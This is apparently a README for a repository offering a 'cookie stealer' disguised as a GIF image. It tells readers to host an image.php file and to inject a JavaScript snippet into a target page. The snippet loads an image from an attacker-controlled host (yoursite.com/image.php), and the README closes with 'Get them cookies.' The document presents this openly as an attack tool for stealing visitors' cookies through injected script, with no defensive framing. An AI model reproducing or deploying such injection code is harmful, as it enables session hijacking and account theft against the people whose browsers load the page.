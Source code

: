 # Cookie Stealer

A cookie stealer disguised as a gif image.

## Hot to use

Host the *image.php* file wherever you want.

Inject the code on the target

```javascript
let img = new Image();
img.src = "http://yoursite.com/image.php";
document.body.appendChild(img);
```

Get them cookies.
